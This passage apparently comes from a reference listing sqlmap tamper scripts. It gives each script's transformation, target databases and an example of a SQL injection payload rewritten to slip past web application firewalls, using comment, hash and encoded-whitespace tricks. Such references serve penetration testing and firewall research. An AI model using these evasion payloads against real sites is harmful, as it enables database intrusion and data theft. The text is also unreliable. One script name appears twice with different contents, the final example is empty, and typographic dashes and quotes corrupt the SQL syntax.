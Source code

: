 ### securesphere.py
Function: 1 AND 1=1 ==> 1 AND 1=1 and ‘0having’=’0having’
Platform: All
example
~~~
1 AND 1=1 ==> 1 AND 1=1 and ‘0having’=’0having’
~~~
### sp_password.py
Function: Space ==> sp_password
Platform: Mssql
example
~~~
1 AND 9227=9227 — ==> 1 AND 9227=9227 — sp_password
~~~
### space2comment.py
Function: Space ==> /**/
Platform: Mssql 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
example
~~~
SELECT id FROM users ==> SELECT/**/id/**/FROM/**/users
~~~
### space2dash.py
Function: Space==> -nVNaVoPYeva% 0A
Platform:MSSQL、SQLite
example
~~~
1 AND 9227=9227 ==> 1 — nVNaVoPYeva%0AAND — ngNvzqu%0A9227=9227
~~~
### space2hash.py
Function: Space ==> %23nVNaVoPYeva%0A
Platform: MySQL 4.0, 5.0
example
~~~
1 AND 9227=9227 ==> 1%23nVNaVoPYeva%0AAND%23ngNvzqu%0A9227=9227
~~~
### space2morehash.py
Function: Space ==> %23ngNvzqu%0A
Platform: MySQL 5.1.41
example
~~~
1 AND 9227=9227 ==> 1%23ngNvzqu%0AAND%23nVNaVoPYeva%0A%23lujYFWfv%0A9227=9227
~~~
### space2mssqlblank.py
Function: Space ==> %0E
Platform: Mssql 2000,2005
example
~~~
SELECT id FROM users ==> SELECT%0Eid%0DFROM%07users
~~~
### space2mssqlblank.py
Function: Space ==> %23%0A
Platform: Mssql、Mysql
example
~~~
1 AND 1=1 ==> 1%23%0AAND%23%0A9227=9227
~~~
### space2mysqlblank.py
Function: Space ==> %2B, %0D, %0C
Platform: Mysql5.1
example
~~~
~~~